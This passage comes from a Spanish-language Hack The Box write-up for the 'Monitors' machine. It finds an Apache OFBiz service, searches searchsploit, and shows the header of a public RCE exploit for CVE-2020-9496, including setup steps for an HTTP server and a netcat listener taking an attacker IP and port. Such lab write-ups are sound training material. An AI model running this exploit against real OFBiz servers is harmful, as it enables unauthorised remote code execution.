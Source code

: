 
Vemos varias rutas que nos dan un codigo de estado `302 redirect`, y si provamos con la ruta `ecommerce`, en el navegador vemos algo relacionado a `ofbizsetup`.


![](/assets/images/HTB/htb-writeup-Monitors/moni6.PNG)


Como sabemos se esta usando el servicio de `apache` asi que podemos tratar de buscar vulnerabilidades asociadas a `apacheofbiz` y encontramos una de `RCE`.

```bash
❯ searchsploit apacheofbiz
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                       |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
ApacheOfBiz 17.12.01 - Remote Command Execution (RCE)                                                                                                | java/webapps/50178.sh
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```


Examinamos el `exploit` y vemos que aprovecha una vulnerabilidad de serealizacion.


```java
# Exploit Title: ApacheOfBiz 17.12.01 - Remote Command Execution (RCE) via Unsafe Deserialization of XMLRPC arguments
# Date: 2021-08-04
# Exploit Author: Álvaro Muñoz, Adrián Díaz (s4dbrd)
# Vendor Homepage: https://ofbiz.apache.org/index.html
# Software Link: https://archive.apache.org/dist/ofbiz/apache-ofbiz-17.12.01.zip
# Version: 17.12.01
# Tested on: Linux

# CVE : CVE-2020-9496

# Step 1: Host HTTP Service with python3 (sudo python3 -m http.server 80)
# Step 2: Start nc listener (Recommended 8001).
# Step 3: Run the exploit.


url='https://127.0.0.1' # CHANGE THIS
port=8443 # CHANGE THIS

function helpPanel(){
    echo -e "\nUsage:"
    echo -e "\t[-i] Attacker's IP"
    echo -e "\t[-p] Attacker's Port"
    echo -e "\t[-h] Show help pannel"
    exit 1
}

```